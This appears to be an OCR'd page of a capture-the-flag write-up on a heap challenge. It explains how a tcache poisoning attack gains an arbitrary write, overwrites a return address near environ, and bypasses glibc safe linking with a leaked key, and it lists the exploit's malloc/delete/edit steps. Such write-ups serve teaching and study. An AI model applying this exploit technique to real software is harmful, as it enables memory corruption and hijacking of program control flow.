 \documentclass{report}
\begin{document}
    \paragraph{craft arbitrary write and rewrite return address with tcache poisoning attack}
    At this point all we have to do is overwrite environ + 0x120, therefore the return address.\newline
    Arbitrary write works in the exact same way as arbitrary read but with the difference that instead of inspecting the function to leak any pointers, we have to write, so instead of the viewNote function we will use Editnote.\newline
    So as before we will create two chunks with size which will allow us to stay inside tcache, free the second to exploit the first so as to overwrite the size field with a fake size and the fd field with environ + 120 which corresponds to the return address.\newline
    \clearpage
    Follows the code that i used:\newline
    \begin{verbatim}
        malloc(0x18,1)
        malloc(0x18,2)
        malloc(0x18,3)
        delete(1)
        delete(2)
        delete(3)
        malloc(0x108,3) # 3
        malloc(0x108,4) # 4 
        malloc(0x108,5) # 4 
        delete(5)
        delete(4) # 4
        edit(3,b"B"*0x108+p64(0x111)+p64((environ-0x128)^key))
        malloc(0x108,4)  
        malloc(0x108,5)
    \end{verbatim}
    From this portion of code you can see how in addition to having created arbitrary write we are bypassing safe linking by xoring the environ address with the key leaked at the beginning of the exploit.\newline
    \begin{figure}[htbp]
        \centering
        \texttt{[image: arb\_write\_heapchall.png]}
        \caption{Arbitrary write}
        \label{fig:enter-label}
    \end{figure}
    \clearpage
\end{document}
